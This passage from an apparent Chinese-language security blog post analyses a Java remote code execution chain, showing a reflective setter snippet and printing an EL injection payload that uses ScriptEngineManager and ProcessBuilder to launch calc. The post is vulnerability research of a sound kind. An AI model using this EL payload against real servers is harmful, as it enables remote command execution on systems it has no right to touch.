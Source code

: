```java
value = (String)ra.getContent();
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);
if (method != null) {
    valueArray[0] = value;
}
```

参数如下：

[![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221640261.png)](https://i.loli.net/2020/08/18/pfgwCZkzHvP9ESU.png)

最终通过el注入实现RCE，反射执行的语句可以整理为如下：

```java
(new ELProcessor()).eval("\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new
java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")");
```

[![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221640899.png)

## 版本总结

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221654874.png)

